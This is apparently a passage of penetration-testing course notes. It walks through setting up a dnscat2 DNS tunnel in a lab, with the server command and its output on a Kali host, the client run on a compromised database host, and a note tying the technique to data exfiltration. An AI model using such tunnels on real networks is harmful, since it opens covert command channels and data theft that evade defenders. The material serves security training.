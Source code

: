 We'll kill our existing Dnsmasq process with a Ctrl+C and run **dnscat2-server** instead, passing the **feline.corp** domain as the only argument
+ Usage:
```
dnscat2-server <DOMAIN>
```
+ Example usage and output:
```
kali@felineauthority:~$ dnscat2-server feline.corp

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=c6cbfa40606776bf86bf439e5eb5b8e7 feline.corp

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=c6cbfa40606776bf86bf439e5eb5b8e7

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2>
```
+ This indicates that the dnscat2 server is listening on all interfaces on UDP/53

Now that our server is set up, we'll move to `PGDATABASE01` to run the **dnscat2** client binary
+ The binary is already on the server for this exercise
+ However, we could have transferred the binary from our Kali machine to `PGDATABASE01` via our SSH connection using `SCP`
+ Thinking about exfiltration techniques (like DNS tunneling) may seem to present a "chicken or the egg" problem.How do we get the DNS tunneling client onto a host if we don't have command execution? Exfiltration is simply a tool we'll use to transfer data. It should be coupled with an exploitation vector that provides access to the target network

We'll run the **dnscat2** client binary from the dnscat folder in the database_admin home directory, with the **feline.corp** domain passed as the only argument
```
database_admin@pgdatabase01:~$ cd dnscat/
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp
Creating DNS driver:
 domain = feline.corp
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 127.0.0.53

Encrypted session established! For added security, please verify the server also displays this string:

Annoy Mona Spiced Outran Stump Visas 

Session established!
```